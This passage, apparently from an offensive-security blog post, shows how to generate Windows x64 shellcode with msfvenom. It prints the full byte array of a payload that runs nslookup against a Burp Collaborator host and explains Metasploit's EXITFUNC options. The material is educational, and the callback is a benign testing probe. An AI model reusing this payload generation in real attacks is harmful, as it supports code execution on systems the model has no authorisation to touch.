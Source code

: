 ### Shellcode

For this part, I'll be using some shellcode generated by Metasploit, since it's very easy to use and it has many options available. Check out my other posts about writing shellcode on Windows systems if you want to know how to write it from scratch.

In particular, I'll be using `windows/x64/exec` to send a DNS query to Burp Collaborator. Here's the command I used to generate the shellcode:

```bash
msfvenom -p windows/x64/exec CMD='nslookup 9oyaxdjyc2nmw2nw3kal3zfi3990xxlm.oastify.com' -a x64 --platform windows EXITFUNC=thread -f c

# No encoder specified, outputting raw payload
# Payload size: 321 bytes
# Final size of c file: 1377 bytes
# unsigned char buf[] = 
# "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
# "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
# "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
# "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
# "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
# "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
# "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
# "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
# "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
# "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
# "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
# "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
# "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
# "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
# "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
# "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
# "\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
# "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
# "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
# "\xd5\x6e\x73\x6c\x6f\x6f\x6b\x75\x70\x20\x39\x6f\x79\x61"
# "\x78\x64\x6a\x79\x63\x32\x6e\x6d\x77\x32\x6e\x77\x33\x6b"
# "\x61\x6c\x33\x7a\x66\x69\x33\x39\x39\x30\x78\x78\x6c\x6d"
# "\x2e\x6f\x61\x73\x74\x69\x66\x79\x2e\x63\x6f\x6d\x00";
```

<figcaption class="figure-caption">Generating the shellcode</figcaption>

Note the usage of the argument `EXITFUNC`, which refers to the method used by the shellcode to terminate its own execution. You can choose between:

- `thread` to kill the thread when the shellcode is about to exit
- `process` to kill the process instead of the thread
- `seh`, which I haven't tested yet. According to the official documentation, it should be used when there's a **SEH** (`Structured Exception Handler`) set up to restart the process/thread when an error occurs.
- `none`, which allows us to concatenate multiple shellcodes without terminating the execution.
